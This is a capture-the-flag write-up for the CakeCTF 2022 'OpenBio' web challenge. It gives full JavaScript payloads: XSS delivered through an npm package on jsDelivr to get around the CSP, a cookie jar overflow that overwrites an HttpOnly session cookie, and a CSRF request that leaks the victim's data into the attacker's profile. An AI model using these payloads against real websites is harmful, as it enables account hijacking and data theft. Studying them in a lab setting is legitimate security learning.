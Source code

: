 # CTF writeup for OpenBio - CakeCTF_2022

Let's take a look at the source code. There are some APIs: register/login/logout, view/update profile, and report.
The website uses [CSP and nonce techniques](https://web.dev/csp/) to prevent XSS attack. Below is the `/profile/my_account`'s response header:
```
HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Mon, 05 Sep 2022 05:30:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2451
Connection: close
Content-Security-Policy: default-src 'none';
  script-src 'nonce-uXNwZYx7W4dDz2yzdzrcAw==' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';
  style-src https://cdn.jsdelivr.net/;
  frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;
  base-uri 'none';
  connect-src 'self';
Vary: Cookie
```
So, the website only accepts scripts coming from https://cdn.jsdelivr.net/. I publish my npm package called my-npm-payload (version 1.0.0) with the content: `<script>alert(1)</script>`. Then I update my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@1.0.0"></script>`. And BOOM! The alert statement is executed.

Ok, we perfomed XSS successfully, but how to get the flag? Let's look at `crawler.js`:
```
  ...
    const username = Math.random().toString(32).substring(2);
    const password = Math.random().toString(32).substring(2);

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        // Register
        await page.goto(base_url + '/', {timeout: 3000});
        await page.type('#username', username);
        await page.type('#password', password);
        await page.click('#tab-signup');
        await page.click('#signup');
        await wait(1000);

        // Set flag to bio
        await page.goto(base_url + '/', {timeout: 3000});
        await page.$eval('#bio', element => element.value = '');
        await page.type('#bio', "You hacked me! The flag is " + flag);
        await page.click('#update');
        await wait(1000);

        // Check spam page
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
   ...
```
In short, it does the following things:
- First, create a user (with random username and password)
- Second, update its own bio => flag
- Finally, go to reported bio

This is my idea: When the crawler visit my bio, the executed XSS script will change **my bio** to **crawler's username**. And having crawler's username means having the flag.

## CSRF

The update profile API uses csrf_token. But I realize that with the same session cookie and one of the valid csrf_tokens, I can call update API multiple times. 

Therefore, the script should **change the crawler's session cookie to my session cookie and call update API with my csrf_token**

## Change session cookie

The session cookie is HttpOnly. There's a technique we can use to bypass this. It's [Cookie jar overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow). So, this is my-npm-payload (version 2.0.0):
```
for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=new_bio"&csrf_token=<my_csrf_token>");
```
Note that there is `path=/` in new session cookie, because if not, the cookie will not be sent with the request on path `/profile/...`
I ran this code on console first, and it worked! Now, we will replace `new_bio` to the flag.
I modified my-npm-payload like this (version 3.0.0):
```
//send request to / => get the crawler's username
var result;
xhr = new XMLHttpRequest();
xhr.open('GET', '/');
xhr.onreadystatechange = function(){
    result = xhr.responseText;
    dom = new DOMParser();
    result_parsed = dom.parseFromString(result, 'text/html');
    title = result_parsed.title; //The title contains the crawler's username
    
    //overwrite crawler's session cookie => my session cookie
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    //Update my bio with my csrf_token
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=<script src='https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0'></script>Title:"+title+"&csrf_token=<my_csrf_token>");
}
xhr.send();
```
I have `<script src='my-npm-payload-url'></script>` in my bio's content so that when I go to my profile and click "Report", the payload will not be lost. Now I change my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0"></script>` and after reporting, I get the result:

![image](https://user-images.githubusercontent.com/103978452/188373761-51e8babe-9dbb-4479-bbe8-7686cd21cfd2.png)

Now visit `/profile/7cokbb5m2bo` and here's the flag:
'CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}'

